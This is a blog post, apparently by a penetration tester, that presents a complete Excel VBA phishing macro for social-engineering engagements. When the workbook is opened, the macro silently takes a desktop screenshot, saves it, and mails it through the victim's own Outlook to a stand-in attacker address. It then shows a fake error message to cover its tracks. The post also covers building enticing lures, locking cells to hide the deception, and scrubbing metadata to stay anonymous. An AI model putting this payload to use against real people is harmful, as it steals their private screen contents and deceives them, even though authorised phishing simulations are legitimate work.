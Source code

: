 ```yaml
---
title:  "Phishing for Screenshots (Excel Macro)"
date:   2018-12-02 12:00:00
published: true
layout: post
excerpt: "When performing social engineering engagements, it's tricky to find a payload that demonstrates the gravity of the attack without going full-on red team and shelling boxes. I've developed something for a recent test that I think finds a nice balance - an Excel macro that will take a screenshot of the user's desktop and leverage their local Outlook profile to email it back to a predefined address."
---
```


When performing social engineering engagements, it's tricky to find a payload that demonstrates the gravity of the attack without going full-on red team and shelling boxes. I've developed something for a recent test that I think finds a nice balance - an Excel macro that will take a screenshot of the user's desktop and leverage their local Outlook profile to email it back to a predefined address.

The target will need to click past either one or two warnings before the macro is executed, so you'll want to create a template that looks enticing enough to take a risk. Something like this might do the trick:

![finance data](/images/post-phishing-screenshots/spreadsheet.png)


# Macro - Workflow

Currently, the macro works like this:

1.) Alerts are disabled (in case of error, we don't want to let the user know).<br>
2.) The 'print screen' key is pressed.<br>
3.) A new tab is added to the spreadsheet.<br>
4.) The screenshot is pasted into the new tab.<br>
5.) This new version of the spreadsheet is saved to c:\users\public.<br>
6.) The additional tab is deleted.<br>
7.) The default Outlook profile is used to send the saved spreadsheet to a defined email address.<br>
8.) Application alerts are enabled.<br>
9.) An alert box pops up with an error "Sorry, your account is not authorised to view this data".<br>

At this point, the user now has a non-macro-enabled version of the spreadsheet open with no trace of the screenshot. They will likely assume there is some sort of permission error and move on to something else. I have also seen cases where they forward it to other users, asking if it works for them. Bonus!

# How to Use
Implementing the macro in a spreadsheet is pretty straightforward. Just do the following:

1.) Build a spreadsheet with some juicy looking content, obfuscated in some way to entice the user to ignore security warnings.<br>
2.) Hit Alt-F11 to bring up the Visual Basic editor.<br>
3.) Double-click on "ThisWorkbook" in the tree view on the left.<br>
4.) Paste the raw macro code in on the right.<br>
5.) The save file as macro-enabled (.xlsm)<br>
6.) Protect (lock) all the cells, to provide a bit of cover for your deception (Protect Sheet/Workbook in the Review tab for Excel 2016 - set a strong password).<br>
7.) Save again.<br>

When you receive hits on the document, open the attachment and look in spreadsheet's second tab. You'll have a screenshot of the user's desktop. Sometimes this contains only the spreadsheet itself in full-screen, but this will at least have the user's name in the title bar. If the user has dual monitors, you'll see both of them included.

Note that when you are testing the document, after you open and click to enable and run macros, the macro-enabled spreadsheet will disappear (see workflow above) and you will have only a standard spreadsheet left open. You'll need to do any editing of the macro prior to enabling and running.


# Important Notes
This is not designed to be stealthy - the Outlook 'Sent Items' folder will contain this message. Also, Excel spreadsheets can contain some sneaky metadata that may expose your identity. I would use this on authorised phishing campaigns or USB drop, but maybe not a red team exercise meant to leave no traces.

Here are a few things you can do to limit your exposure:
- Use an email address not easily connected to your real name.
- Remove all Office metadata both using Windows explorer AND manually by converting to a zip, deleting sensitive strings, and swapping back. Explorer unfortunately doesn't remove it all.

# The Code
Here is the raw macro. You'll need to update 'EMAIL_TO' and 'EMAIL_SUBJ' with your own values.


I'm sure this macro can be improved, so please open an issue on the [GitHub repository](https://github.com/initstring/pentest/blob/master/phishing/screenshot-macro) here if you have an idea.

```
'This document is part of an authorised, simulated phishing campaign.
'If you are reading this - nice work!

Option Explicit


Private Declare Sub keybd_event Lib "user32" (ByVal bVk As Byte, ByVal _
  bScan As Byte, ByVal dwFlags As Long, ByVal dwExtraInfo As Long)

Private Const VK_SNAPSHOT = &H2C
Private Const EMAIL_TO = "phisher@phishingdomain.com"
Private Const EMAIL_SUBJ = "XLS pingback!"

Sub PrintScreen()
    Application.Wait (Now + TimeValue("0:00:01"))
    keybd_event VK_SNAPSHOT, 0, 0, 0
    Application.Wait (Now + TimeValue("0:00:01"))
End Sub

Sub ExportFile()
    Sheets.Add After:=ActiveSheet
    ActiveSheet.PasteSpecial Format:="Bitmap", Link:=False, DisplayAsIcon:= _
        False
    ActiveWorkbook.SaveAs Filename:= _
        "c:\users\public\export.xlsx", _
        FileFormat:=xlOpenXMLWorkbook, CreateBackup:=False
    ActiveWindow.SelectedSheets.Delete
End Sub

Sub Send_Email_Using_VBA()
Dim Email_Subject, Email_Send_From, Email_Send_To, _
Email_Cc, Email_Bcc, Email_Body As String
Dim Mail_Object, Mail_Single As Variant
Email_Subject = EMAIL_SUBJ
Email_Send_To = EMAIL_TO
Email_Body = "Files are attached"
Set Mail_Object = CreateObject("Outlook.Application")
Set Mail_Single = Mail_Object.CreateItem(0)
With Mail_Single
.Subject = Email_Subject
.To = Email_Send_To
.Body = Email_Body
.Attachments.Add "c:\users\public\export.xlsx"
.send
End With
End Sub

Private Sub Workbook_Open()
Application.DisplayAlerts = False
PrintScreen
ExportFile
Send_Email_Using_VBA
Application.DisplayAlerts = True
MsgBox "Sorry, your account is not authorised to view this data."
End Sub
```

